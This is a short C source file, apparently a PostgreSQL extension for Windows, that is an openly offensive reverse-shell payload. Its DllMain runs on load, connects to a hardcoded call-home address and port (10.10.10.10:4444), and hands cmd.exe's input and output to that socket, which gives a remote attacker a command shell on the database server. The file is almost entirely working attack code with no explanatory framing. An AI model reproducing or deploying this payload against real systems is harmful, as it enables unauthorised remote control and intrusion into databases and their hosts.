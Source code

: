 ```c
#define PG_REVSHELL_CALLHOME_SERVER "10.10.10.10"
#define PG_REVSHELL_CALLHOME_PORT "4444"

#include "postgres.h"
#include <string.h>
#include "fmgr.h"
#include "utils/geo_decls.h"
#include <winsock2.h>

#pragma comment(lib,"ws2_32")

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

#pragma warning(push)
#pragma warning(disable: 4996)
#define _WINSOCK_DEPRECATED_NO_WARNINGS

BOOL WINAPI DllMain(_In_ HINSTANCE hinstDLL,
_In_ DWORD fdwReason,
_In_ LPVOID lpvReserved)
{
WSADATA wsaData;
SOCKET wsock;
struct sockaddr_in server;
char ip_addr[16];
STARTUPINFOA startupinfo;
PROCESS_INFORMATION processinfo;

char *program = "cmd.exe";
const char *ip = PG_REVSHELL_CALLHOME_SERVER;
u_short port = atoi(PG_REVSHELL_CALLHOME_PORT);

WSAStartup(MAKEWORD(2, 2), &wsaData);
wsock = WSASocket(AF_INET, SOCK_STREAM,
IPPROTO_TCP, NULL, 0, 0);

struct hostent *host;
host = gethostbyname(ip);
strcpy_s(ip_addr, sizeof(ip_addr),
inet_ntoa(*((struct in_addr *)host->h_addr)));

server.sin_family = AF_INET;
server.sin_port = htons(port);
server.sin_addr.s_addr = inet_addr(ip_addr);

WSAConnect(wsock, (SOCKADDR*)&server, sizeof(server),
NULL, NULL, NULL, NULL);

memset(&startupinfo, 0, sizeof(startupinfo));
startupinfo.cb = sizeof(startupinfo);
startupinfo.dwFlags = STARTF_USESTDHANDLES;
startupinfo.hStdInput = startupinfo.hStdOutput =
startupinfo.hStdError = (HANDLE)wsock;

CreateProcessA(NULL, program, NULL, NULL, TRUE, 0,
NULL, NULL, &startupinfo, &processinfo);

return TRUE;
}

#pragma warning(pop) /* re-enable 4996 */
```